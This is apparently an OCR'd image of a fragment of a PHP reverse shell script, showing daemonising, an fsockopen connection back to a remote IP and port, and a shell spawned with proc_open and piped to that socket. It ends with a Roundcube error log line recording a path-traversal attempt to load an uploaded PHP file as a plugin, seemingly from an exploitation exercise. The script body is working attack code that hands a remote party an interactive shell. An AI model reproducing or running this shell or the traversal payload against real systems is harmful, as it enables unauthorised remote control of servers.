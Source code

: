 	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)